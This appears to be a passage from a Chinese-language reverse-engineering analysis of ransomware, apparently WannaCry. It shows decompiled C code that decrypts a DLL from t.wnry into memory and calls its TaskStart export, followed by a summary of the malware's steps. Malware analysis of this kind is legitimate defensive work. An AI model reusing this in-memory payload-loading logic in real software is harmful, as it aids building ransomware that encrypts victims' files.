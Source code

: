 ```c

if ( ImportKeyAndAllocMem(this, 0, 0, 0) )// 导入私钥并且分配两块固定内存  

{  

DecryptFileSize = 0;  

pFile = (void *)DecryptFile(this, t_wnry, (int)&DecryptFileSize);

// 从t.wnry中解密出一个dll文件  

if ( pFile )  

{  

pHeapBase = WriteAllocMem(pFile, DecryptFileSize);

// 申请一块堆空间 并把解密出的dll写入到堆空间 pHeapBase=dll->Nt头  

if ( pHeapBase )  

{  

TaskStartAddr = (void (__stdcall *)(_DWORD, _DWORD))GetExportFunAddr((int)pHeapBase, TaskStart);  

if ( TaskStartAddr )  // 从堆空间中取出dll导出函数的地址 并调用 

TaskStartAddr(0, 0);  

}  

}  

}  

CDatabase::~CDatabase((CDatabase *)this); // 析构函数 释放资源  

}  

}  

return 0;  

}  
```

通过对主题的完整注释我们大致了解了病毒所进行的主要操作，经总结为如下过程：

1.  初始化 内存，工作目录和随机数

2.  设置注册表项为当前进程目录
